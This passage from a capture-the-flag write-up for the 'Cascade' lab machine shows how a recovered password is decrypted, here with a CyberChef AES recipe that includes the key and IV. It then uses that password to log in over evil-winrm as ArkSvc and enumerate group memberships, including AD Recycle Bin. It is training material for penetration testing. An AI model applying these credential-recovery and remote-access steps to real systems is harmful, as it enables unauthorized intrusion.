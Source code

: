 Here is the <a href="https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'UTF8','string':'c4scadek3y654321'%7D,%7B'option':'UTF8','string':'1tdyjCbY1Ix49842'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)&input=QlFPNWw1S2o5TWRFclh4NlE2QUdPdz09">CyberChef recipe</a> to decode the password: `w3lc0meFr31nd`.

From there we can can connect with the `ArkSvc` account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm) and enumerate our
permissions.

    :::text
    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

    USER INFORMATION
    ----------------

    User Name      SID
    ============== ==============================================
    cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


    GROUP INFORMATION
    -----------------

    Group Name
    ===========================================
    Everyone
    BUILTIN\Users
    BUILTIN\Pre-Windows 2000 Compatible Access
    NT AUTHORITY\NETWORK
    NT AUTHORITY\Authenticated Users
    NT AUTHORITY\This Organization
    CASCADE\Data Share
    CASCADE\IT
    CASCADE\AD Recycle Bin
    CASCADE\Remote Management Users
    NT AUTHORITY\NTLM Authentication
    Mandatory Label\Medium Plus Mandatory Level


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

We are in the group `AD Recycle Bin`. A few Google research lead us to
[a Microsoft article about AD recycle bin](https://docs.microsoft.com/en-us/archive/blogs/askds/the-ad-recycle-bin-understanding-implementing-best-practices-and-troubleshooting).
